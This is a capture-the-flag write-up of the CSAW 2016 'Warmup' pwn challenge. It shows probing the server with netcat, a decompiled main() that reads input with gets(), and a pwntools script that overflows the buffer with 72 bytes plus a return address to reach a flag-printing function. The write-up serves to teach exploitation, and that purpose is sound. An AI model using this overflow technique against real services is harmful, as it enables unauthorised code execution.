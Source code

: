 ```yaml
---
title: '[CSAW 2016] PWN: Warmup Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:01:55+00:00
url: /csaw-2016-pwn-warmup-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - PWN
  - Writeups

---
```

#### **Description:**

> _So you want to be a pwn-er huh? Well let&#8217;s throw you an easy one 😉_  
> _nc pwn.chal.csaw.io 8000_
> 
> _<a class="chal-file" href="https://ctf.csaw.io/static/uploads/8ef117ec4c05f79aebdf043f3d003c2b/warmup" target="_blank">warmup</a>_

Let&#8217;s connect to the server and play with it a little bit:

<pre class="lang:sh decode:true">[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beet

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beetttttttttttttttttttttt

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</pre>

The program says &#8220;WOW:&#8221; followed by a memory address. This address is probably the address of the function we need to execute. Let&#8217;s open IDA to view the code:

<pre class="toolbar:1 lang:c decode:true " title="From HEX-Rays Decompiler">int __cdecl main(int argc, const char **argv, const char **envp)
{
	  char s; // [sp+0h] [bp-80h]@1
	  char v5; // [sp+40h] [bp-40h]@1

	  write(1, "-Warm Up-\n", 0xAuLL);
	  write(1, "WOW:", 4uLL);
	  sprintf(&s, "%p\n", 4195853LL);
	  write(1, &s, 9uLL);
	  write(1, (const void *)'@\aU', 1uLL);
	  return gets(&v5, '&gt;');
}b</pre>

This is a classic BOF (Buffer Overflow) case. The main method uses the `gets()` function to receive the given input and returns it. `gets()` is storing 64 characters (40h). Because there is no validation of the given string we need to supply an input that will exploit the program and make it jump to the wanted address: 0x40060d.

A short python script will do the job:

<pre class="lang:python decode:true ">from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
print r.recv()
r.sendline("A"*72 + "\x0D\x06\x40\x00\x00\x00\x00\x00")
print r.recvline()</pre>

And we got the flag: _FLAG{LET\_US\_BEGIN\_CSAW\_2016}_

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>